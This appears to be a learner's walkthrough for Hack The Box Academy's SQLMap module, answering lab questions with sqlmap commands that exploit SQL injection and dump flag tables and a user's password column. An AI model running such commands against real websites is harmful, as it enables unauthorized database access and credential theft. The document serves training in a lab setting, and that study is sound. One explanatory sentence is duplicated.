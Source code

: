 ```
sqlmap -r case4.req --batch -p 'id' --level=5 --risk=3 -dbms MySQL -D testdb -T flag4 --dump
```

>[Questions SQLMAP - Attack Tuning](https://academy.hackthebox.com/module/58/section/526)  

>What's the contents of table flag5? (Case #5)
>Detect and exploit (OR) SQLi vulnerability in GET parameter id  

```
sqlmap -r case5.req --batch -p 'id' --level=5 --risk=3 -dbms MySQL --dbs --flush-session
```

```
sqlmap -r case5.req --batch -p 'id' --level=5 --risk=3 -dbms MySQL -D testdb -T flag5 --dump 
```  

>What's the contents of table flag6? (Case #6)
>Detect and exploit SQLi vulnerability in GET parameter `col` having non-standard boundaries
>Test if the back tick cause and SQL query syntax error, successful enumerated.

```
sqlmap -r case6.req --batch -p 'col' --level=5 --risk=3 --prefix='`)' -D testdb -T flag6 --dump --flush-session
```

>What's the contents of table flag7? (Case #7)
>Detect and exploit SQLi vulnerability in GET parameter id by usage of UNION query-based technique  
>Without the --no-cast option sqlmap can't retrieve the tables. With the --no-cast option sqlmap can retrieve the tables but not the columns. With the --no-cast option sqlmap can retrieve the tables but not the columns.

```
sqlmap -r case7.req --batch -dbms MySQL --union-cols=5 -D testdb -T flag7 --dump --no-cast --flush-session
```  

>[Question - Database Enumeration - current user db is-dba](https://academy.hackthebox.com/module/58/section/510)  

>What's the contents of table `flag1` in the `testdb` database? (Case #1)
>Detect and exploit SQLi vulnerability in GET parameter id

```
sqlmap -r case1.req --batch -p 'id' -dbms MySQL -D testdb -T flag1 --dump
```  

>[Questions - Advanced Database Enumeration](https://academy.hackthebox.com/module/58/section/529)  

>What's the name of the column containing "style" in it's name? (Case #1)

```
sqlmap -r case1.req --batch -p 'id' --search -C "style"
```  

>What's the Kimberly user's password? (Case #1)  

```
sqlmap -r case1.req --batch -p 'id' -dbms MySQL -D testdb -T users --columns -C name,password --dump --no-cast
```  
